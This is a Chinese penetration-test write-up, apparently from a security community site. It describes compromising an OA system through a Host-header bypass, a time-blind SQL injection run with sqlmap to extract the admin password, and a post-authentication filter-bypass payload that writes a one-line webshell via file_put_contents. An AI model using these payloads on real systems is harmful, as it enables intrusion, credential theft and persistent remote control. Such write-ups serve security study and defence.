# 记一次项目中拿下某oa过程-先知社区

> **来源**: https://xz.aliyun.com/news/17888  
> **文章ID**: 17888

---

在一次项目中遇到了某呼oa，该系统存在一些前台注入，通过百度搜索获取到某处注入点：

**前台注入：**  


利用该exp在目标中利用返回如下：  


找到对应的源码查看报错：



继承的openapiAction类，查看该类：



在父类的初始化函数中存在判断，首先看下openkey的值是否为定值：

openkey值在安装时随机生成，不可被预知：webmain/install/installAction.php



那么就只有从HOST入手是否可以伪造：HOST定义如下：





通过$\_SERVER['HTTP\_HOST']获取的host，该参数在不同中间件apache/nginx/php中获取到的值存在差异，由于目标是ip+端口的方式直接访问到应用，虽然返回包显示是nginx，但是测试直接修改host也是可以正常使用的。



绕过访问到接口后，直接进行注入，注入点简单分析：



对参数进行了base64解密，所以导致获取参数时进行防注入操作失败：





直接进行拼接造成注入。但是由于此处是insert语句，不能进行回显，所以看下是否存在该表查询的地方：



搜索后发现一处也没有，所以此处只能进行时间盲注。

直接利用sqlmap的--sql-shell功能进行查询管理员密码：  
select pass from [Q]admin where user='admin' limit 1

表存在前缀问题，使用[Q]代替表前缀，因为会在最后执行时进行替换：



## **后台****rce****：**

在网上找到一片后台rce的文章：



参数获取：



这里最大的问题是参数通过$this->post('name')方式获取，这样获取存在过滤，会过滤掉单引号，同时对数据转化为小写，并且数据长度不能太长。



当时测试的时候发现双引号也不能用，这两个问题就导致了引入字符串存在问题，也不能通过$\_POST[1] 这种方式进行外部传入。

​

**绕过****：**

这里利用了base64\_decode 这个函数的特性，这个函数中的字符串不需要引号包裹也可以正常解码，但是如果字符串结尾是= 则会被丢弃。例如：  
base64\_decode(‘MTIz’) == base64\_decode(MTIz)

​

利用该特点，我们通过 file\_put\_contents 写入一个新的一句话即可。  
poc：

a{};file\_put\_contents(base64\_decode(strtoupper(mti) . strtolower(ud) . strtoupper(h) . strtolower(h0)),base64\_decode(strtoupper(xs) . strtolower(k) . strtolower(7)),8);class a

由于数据不能太长，所以使用追加的方式，同时字母和数字需要分开，不能写在一起：  
strtolower(k7) 需要写出strtolower(k) . strtolower(7)

​

最后成功写入新的一句话。
